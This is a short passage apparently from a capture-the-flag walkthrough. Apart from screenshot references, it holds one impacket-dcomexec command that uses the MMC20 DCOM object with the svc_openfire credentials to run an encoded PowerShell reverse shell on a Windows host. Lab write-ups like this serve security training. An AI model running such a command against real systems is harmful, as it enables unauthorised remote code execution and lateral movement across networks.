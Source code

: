 ![Screenshot13](./Screenshots/13.png)

![Screenshot14](./Screenshots/14.png)

The impacket Suite provides us with a tool with which we can now use this method.

__Command:__ `impacket-dcomexec -object MMC20 -silentcommand -debug JAB/svc_openfire:<PASS>\@<IP> 'powershell.exe -e <BASE64_ENCODED_REV-SHELL>'`

![Screenshot15](./Screenshots/15.png)
